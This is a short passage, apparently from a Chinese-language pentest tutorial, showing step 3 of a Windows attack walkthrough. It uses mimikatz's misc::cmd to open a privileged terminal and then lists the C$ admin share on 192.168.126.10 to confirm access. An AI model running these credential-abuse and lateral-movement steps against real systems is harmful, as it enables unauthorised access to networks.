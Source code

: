 [![](assets/1706958938-c04ff0baf47757a32e07ef842048a73b.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172312053-335059167.png)

#### 3、开启当前权限的管理员终端

使⽤ mimikatz 的 `misc::cmd` 模块，打开打开⼀个新窗⼝验证我们当前权限。

```bash
misc::cmd
dir \\192.168.126.10\c$
```

[![](assets/1706958938-f515cb41992cfaa4a58b659b0a516c9e.png)](https://img2023.cnblogs.com/other/3262985/202309/3262985-20230907172312626-1339677555.png)
